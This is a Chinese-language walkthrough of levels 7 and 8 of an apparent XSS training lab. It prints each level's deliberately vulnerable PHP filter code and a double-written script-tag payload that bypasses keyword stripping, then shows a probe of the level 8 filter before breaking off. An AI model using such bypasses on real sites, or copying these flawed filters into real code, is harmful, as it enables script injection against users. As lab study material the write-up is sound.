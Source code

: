 http://192.168.31.193:8080/level7.php?keyword=move%20up!

```PHP
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

strtolower将传参变为小写，

script，on，src，data，href被替换为空，

尝试**双写** s*script*cript

`"><sscriptcript> alert(/xss/)</sscriptcript>`

## level8

http://192.168.31.193:8080/level8.php?keyword=nice%20try!

```PHP
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```

测试过滤了什么

`<script " 'Oonn>`

<a href="<scr_ipt &quot 'oo_nn>">友情链接
